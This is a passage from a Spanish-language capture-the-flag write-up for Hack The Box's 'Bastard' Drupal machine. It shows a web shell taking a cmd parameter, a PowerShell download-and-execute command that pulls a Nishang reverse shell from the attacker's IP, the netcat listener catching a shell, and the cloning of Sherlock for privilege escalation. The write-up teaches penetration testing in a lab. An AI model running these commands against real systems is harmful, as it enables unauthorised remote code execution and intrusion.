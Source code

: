 Si accedemos al recurso que nos indica `http://10.10.10.9//k4miyo.php` y validamos que tenemos ejecución de comandos con nuestra variable `cmd`:

![](/assets/images/htb-bastard/bastard-cmd.png)

Una vez teniendo ejecución de comandos, ahora si nos entablamos una reverse shell; por lo tanto, nos copiamos el archivo `Invoke-PowerShellTcp.ps1` a nuestro directorio de trabajo y al final del archivo agregamos al siguiente linea `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.17 -Port 443`

```bash
❯ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 PS.ps1
```

Nos compartimos un servidor HTTP con python y nos ponemos en escucha a través del puerto 443. Una vez con esto, ejecutamos al siguiente linea (**Nota**: Utilizando powershell desde la parte nativa del sistema `
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe` para evitar problemas debido que nos encontremos un proceso diferente al soportado por el sistema operativo).

```bash
http://10.10.10.9//k4miyo.php?cmd=C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.17/PS.ps1')
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.9 - - [08/Oct/2021 00:54:16] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.9] 49180
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
nt authority\iusr
PS C:\inetpub\drupal-7.54>
```

A este punto ya podemos visualizar la flag (user.txt). Nos queda escalar privilegios, por lo que para esta ocación, ocuparemos la herramienta [Sherlock](https://github.com/rasta-mouse/Sherlock), así que nos la descargamos.

```bash
❯ git clone https://github.com/rasta-mouse/Sherlock
Clonando en 'Sherlock'...
remote: Enumerating objects: 75, done.
remote: Total 75 (delta 0), reused 0 (delta 0), pack-reused 75
Recibiendo objetos: 100% (75/75), 33.97 KiB | 552.00 KiB/s, listo.
Resolviendo deltas: 100% (39/39), listo.
```
